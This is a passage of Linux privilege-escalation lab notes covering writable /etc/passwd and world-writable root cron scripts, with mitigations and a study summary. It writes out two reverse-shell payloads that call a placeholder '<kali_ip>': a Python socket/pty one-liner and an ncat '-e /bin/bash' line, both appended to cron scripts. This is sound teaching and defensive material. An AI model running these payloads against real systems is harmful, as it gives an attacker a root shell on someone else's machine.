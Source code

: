 bashCopy code

`echo "import os,pty,socket;s=socket.socket();s.connect((\"<kali_ip>\",<port>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")" >> /var/scripts/python_script.py`

Exploitation

Like before, we can use echo for this.

Exploitation

And after a minute we get our root shell.

Mitigation

1. Don’t use cron with root unless it’s absolutely necessary.
2. Don’t have weak file permissions on scripts running with cron.

---

**Breakdown with Explanations and Countermeasures:**

**Writable /etc/passwd:**

Explanation:

- `sudo chmod 666 /etc/passwd`: This command changes the permissions of /etc/passwd to allow read and write access for all users. This could potentially lead to privilege escalation by allowing unauthorized users to modify the file and add new users with root privileges.

Countermeasure:

- Keep /etc/passwd permissions as rw-r--r–.
- Disable password authentication over SSH.

**Insecure File Permissions - Cron:**

Explanation:

- `chmod -R 777 /var/scripts`: This command grants read, write, and execute permissions to everyone for all files and directories within /var/scripts. This could lead to privilege escalation if cron scripts are run with root privileges and are writable by unprivileged users.

Countermeasure:

- Don’t have weak file permissions on scripts running with cron.

**Exploiting Cron:**

Explanation:

- `echo 'ncat <kali_ip> <port> -e /bin/bash' >> /var/scripts/bash_script.sh`: This command appends a reverse shell command to the bash script that is executed by cron. When the script runs, it will spawn a shell with root privileges, providing the attacker with a reverse shell.

Countermeasure:

- Don’t use cron with root unless it’s absolutely necessary.

**Summary for Memory Retention:**

1. **Writable /etc/passwd:** Changing permissions on critical system files like /etc/passwd can lead to privilege escalation. Keep permissions restrictive and avoid giving unnecessary access.
    